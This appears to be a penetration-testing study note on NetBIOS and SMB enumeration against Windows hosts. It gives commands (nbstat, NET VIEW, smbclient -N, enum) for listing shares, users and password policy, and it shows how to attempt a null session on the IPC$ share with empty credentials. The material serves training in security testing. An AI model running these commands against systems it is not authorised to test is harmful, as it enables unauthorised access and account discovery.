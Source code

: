 #### Tools

* `nbstat`: windows cmd tool that can display info about the target.
* `nbstat -A <IP>`: displays info about a target.

```bash
Name                Type      Status
----------------------------------------
ELS-WINXP     <00>  UNIQUE    Registered
WORKGROUP     <00>  GROUP     Registered
ELS-WINXP     <20>  UNIQUE    Registered
```

* `ELS-WINXP`: name
* `<00>`: workstation
* `UNIQUE`: this computer must have only one IP address assigned
* `<20>`: file sharing service is up and running on the machine
* Once an attacker knows that a machine has a 'File Server' service running, they can enumerate the shares by using `net view`:

```bash
NET VIEW <target IP>
```

* Share enumeration from a Linux Machine is provided by the _Samba suite_.
* `nmblookup -A <target ip address>` gets the same results as `NET VIEW <target_IP>`.

`smbclient` also displays _shares that are hidden when using Windows standard tools_:

```bash
# To enumerate the shares provided by a host
smbclient -L //<target_IP> -N

# -L allows to look at what services are available on a target
# -N forces the tool to not ask for a password
```

Once we have detected that the File and Printer Sharing service is active and we have enumerated the available shares on a target, it's time to check if a null session attack is possible. We can exploit `IPC$` administrative share by trying to connect to it without valid credentials.

**Checking for Null Sessions with Windows**

To connect:

```text
# This tells Windows to connect to the IPC$ share by using an empty password and an empty username!
NET USE \\<target IP address>\IPC$ '' /u:''

smbclient //<target_IP>/IPC$ -N
```

**Exploiting Null Sessions with Enum**

```bash
enum -S <target>  # -S lets you enumerate the shares of a machine
enum -U <target>  # -U enumerates the users
enum -P <target>  # -P check the password policy
```
